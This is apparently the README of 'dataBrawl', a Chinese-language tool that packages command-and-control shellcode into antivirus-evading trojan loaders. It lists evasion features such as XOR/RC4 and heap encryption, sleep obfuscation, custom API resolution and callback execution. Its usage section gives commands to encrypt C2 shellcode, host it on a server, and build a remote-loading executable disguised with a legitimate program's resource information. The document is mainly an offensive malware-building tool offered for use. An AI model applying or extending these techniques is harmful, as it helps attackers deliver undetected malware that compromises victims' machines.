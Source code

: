# dataBrawl

一款一键化生成免杀木马的shellcode免杀框架，具备**本地加载**方式和**远程加载**方式。

（本工具没有追求多而全的加载方式，去除经多次测试无效的加载技术，保留了最实用最接近APT的利用方式。）

**目前已支持：**

1. 分离加载shellcode
2. XOR/RC4 加密
3. 堆加密
4. 自定义sleep混淆
5. 自定义GetProcAddress/GetModuleHandle
6. 回调执行shellcode
7. 一键添加资源信息
8. ...



**待更新：**

1. 将bin转换成图片加载
2. 更多的反沙箱、反分析方式，更多的内存对抗等







## 环境准备

本工具使用mingw编译，需要准备好编译环境，下载mingw编译器：

官网地址：https://www.mingw-w64.org/

Windows下载链接： https://sourceforge.net/projects/mingw-w64/files/

我下载的是x86_64-win32-seh，具体请根据系统情况适配，也可以直接下载online installer

<img src="./assets/image-20240417134130271.png" alt="image-20240417134130271" style="zoom:50%;" />



添加系统环境变量：

path = 解压目录/mingw64/bin

最好把include和lib也对应添加到环境变量的include和lib中，以免编译找不到链接库



## 使用说明

```
python dataBrawl.py -h
```

![image-20240417132855251](./assets/image-20240417132855251.png)

#### 远程加载shellcode

CS或其他C2生成shellcode

![image-20240417140327230](./assets/image-20240417140327230.png)

生成处理后的bin文件

```shell
python dataBrawl.py remote D:\Dev\dataBrawl-1.0\calc.bin -c 1
```

将生成在根目录的encrypt.bin上传到服务器

```shell
python main.py remote http://127.0.0.1/xorcalc.bin -i D:\Typora\Typora.exe
```

![image-20240417132140197](./assets/image-20240417132140197.png)



![image-20240417132323764](./assets/image-20240417132323764.png)